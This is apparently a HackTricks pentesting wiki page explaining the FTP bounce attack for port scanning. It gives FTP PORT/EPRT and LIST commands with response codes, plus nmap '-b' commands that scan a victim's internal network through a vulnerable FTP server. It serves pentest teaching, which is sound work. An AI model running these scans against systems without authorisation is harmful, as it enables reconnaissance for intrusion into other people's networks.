 # FTP Bounce attack - Scan

{{#include ../../banners/hacktricks-training.md}}

## FTP Bounce - Scanning

### Manual

1. Connect to vulnerable FTP
2. Use \*\*`PORT`\*\*or **`EPRT`**(but only 1 of them) to make it establish a connection with the _\<IP:Port>_ you want to scan:

   `PORT 172,32,80,80,0,8080`\
   `EPRT |2|172.32.80.80|8080|`

3. Use **`LIST`**(this will just send to the connected _\<IP:Port>_ the list of current files in the FTP folder) and check for the possible responses: `150 File status okay` (This means the port is open) or `425 No connection established` (This means the port is closed)
   1. Instead of `LIST` you could also use **`RETR /file/in/ftp`** and look for similar `Open/Close` responses.

Example Using **PORT** (port 8080 of 172.32.80.80 is open and port 7777 is closed):

![](<../../images/image (241).png>)

Same example using **`EPRT`**(authentication omitted in the image):

![](<../../images/image (539).png>)

Open port using `EPRT` instead of `LIST` (different env)

![](<../../images/image (875).png>)

### **nmap**

```bash
nmap -b <name>:<pass>@<ftp_server> <victim>
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

{{#include ../../banners/hacktricks-training.md}}



